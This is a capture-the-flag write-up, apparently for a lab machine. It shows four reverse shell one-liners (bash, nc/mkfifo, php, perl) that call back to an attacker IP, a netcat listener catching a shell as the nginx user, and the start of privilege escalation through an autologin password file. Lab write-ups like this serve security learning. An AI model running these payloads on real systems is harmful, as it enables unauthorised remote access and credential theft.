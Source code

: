 Went down [Reverse Shell Cheat Sheet from pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). My go-to payloads didn't work.

```none
bash -c 'bash -i >& /dev/tcp/10.10.14.4/9001 0>&1'

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 9001

php -r '$sock=fsockopen("10.10.14.4",9001);exec("/bin/sh -i <&3 >&3 2>&3");'
```

I never really use some of the other shells including Python and Perl - because they are so long. But, today, `perl` came through and got a reverse shell.

```none
perl -e 'use Socket;$i="10.10.14.4";$p=9001;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Make sure to URL encode - there are a bunch of bad characters in that payload. And we have a shell as the `nginx` user:

```none
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.229] 42436
$ id
uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)
```

## Privesc: `nginx` to `katie`

Fired up `linpeas.sh` to start some enumeration. The first thing I notice is this machine is running `Chromium OS 11.0`. Even though it is based on Linux - it looks different. Interesting! Not much was blatantly obvious in the linpeas output, and had to poke around for a good 30 minutes until I found something. Some interesting things I found were:

- `katie` is in the `developers` group
- There was lots of mention of `autologin`

After working through the linpeas output, there was one weird entry that just seemed out of place.

```none
passwd="$(cat "${dir}/passwd")"
```

This is what made me start looking at autologin and password files. Linepas reported the `/etc/init/autologin.conf` file, which read in a password from a file, and then logged in.

```none
  # Read password from file. The file may optionally end with a newline.
  for dir in /mnt/stateful_partition/etc/autologin /etc/autologin; do
    if [ -e "${dir}/passwd" ]; then
      passwd="$(cat "${dir}/passwd")"
      break
    fi
  done
```
